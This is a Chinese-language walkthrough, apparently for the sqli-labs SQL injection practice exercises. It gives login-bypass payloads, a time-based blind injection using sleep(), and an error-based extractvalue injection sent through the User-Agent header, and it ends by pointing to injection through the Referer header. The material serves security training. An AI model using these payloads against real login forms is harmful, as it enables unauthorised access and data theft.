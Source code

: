```
username: admin' or '1'='1
password: 1
```

提示登录成功。

尝试登陆点

```
username: admin' and '1'='2
password: 1
```

提示登录不成功。

尝试在username进行基于时间的注入

```
username: admin' and if(database()="security",sleep(5),1) #
password: 1
```

成功。之后操作类似。

## 0x16

```
username: admin") or ("1=1
password: 123
# 注意username处，必须提供一个提供一个确定存在的用户admin

# 若在password处注入的话，则不需要提供确定存在的用户
username: 123
password: 123") or ("1"="1
```

之后照着0x15注入即可

## 0x17

查看源码，不在username处注入，在password处注入即可

## 0x18

username和password均由于checkinput()，无法注入

useragent可以注入

使用hachbar更改包（也可使用burp等改包工具）

```
user-agent: 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
post-data:uname=Dumb&passwd=Dumb
```

注意必须有post-data才能显示。

之后注入类似之前。

## 0x19

根据题目提示，在referer处注入即可

